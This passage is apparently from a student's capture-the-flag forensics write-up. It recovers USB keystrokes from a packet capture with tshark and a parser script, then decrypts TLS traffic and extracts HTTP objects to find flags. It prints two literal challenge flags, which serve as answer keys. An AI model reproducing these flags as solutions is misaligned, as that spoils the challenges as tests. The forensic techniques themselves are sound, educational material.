

And saved the filtered packets as `filteredkeystrokes.pcapng`. 
Why  I even do filtering the packets? 
Because we will be parsing the keystrokes from pcapng to make it readable.

There is a tool that will parse the keystrokes from the filtere pcapng file and it's called [ctf-usb-keyboard-parser](https://github.com/carlospolop-forks/ctf-usb-keyboard-parser)



We can follow the instructions given from the tool.

Extract file from pcap (might not work for every pcap)
```bash
#Run this
tshark -r ./filteredkeystrokes.pcapng -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata
#If you don't get an output like:
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
...

#You need to run:
tshark -r ./filteredkeystrokes.pcapng -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2'
```

Save the hex output to a file 
```bash
tshark -r filteredkeystrokes.pcapng -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2' > keystrokeshex.txt

00:00:00:00:00:00:00:00
00:00:10:00:00:00:00:00
00:00:00:00:00:00:00:00
02:00:00:00:00:00:00:00
02:00:05:00:00:00:00:00
02:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:15:00:00:00:00:00
00:00:12:00:00:00:00:00
00:00:00:00:00:00:00:00
....
```

Then run the parser script to get the keystrokes.
```bash
$ python3 ctf-usb-keyboard-parser/usbkeyboard.py keystrokeshex.txt 
I havebeen hake !!!
HELMEE
BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

 MogamBro        
```

## Scenario 6: Bypassing Transport Layer

`Description`

The exploit not only manipulated MogamBro's secret but also tried to establish an external TCP connection to gain further access to the machine. But I don't really think he was able to do so. Can you figure out where the exploit was trying to reach to?

`Solution`

Here I will be analyzing the `trace.pcap` file. To trace the external TCP connection.



In before TLS streams are encrypted but I already decyrpted it with the `keys` found in the `Scenario 5`. To decrypt the TLS stream I followed the steps from Mike Polinowski docs [Decrypting TLS Streams](https://mpolinowski.github.io/docs/DevOps/Security/2022-09-27--wireshark-with-tls-encryption/2022-09-27/).



Since everything is decrypted, I tried to extract all the objects from HTTP stream. Some of the files are explicit 18+ images.



Then searched for the `flag` in the extracted objects.

```
└─$ strings * | grep BITS                                                                                                                                130 ⨯
</div></li><li class="li1"><div class="de1">Anyways here&#039;s your flag - BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}</div></li></ol>        </div>
```

`FLAG: BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}`


# DFIR Completed



Their DFIR challs is educational and fun. I learned a lot from this category even though I don't have any experience in Incident Response since I am still a student.

I hope you learned something from my writeup. Thank you for reading.
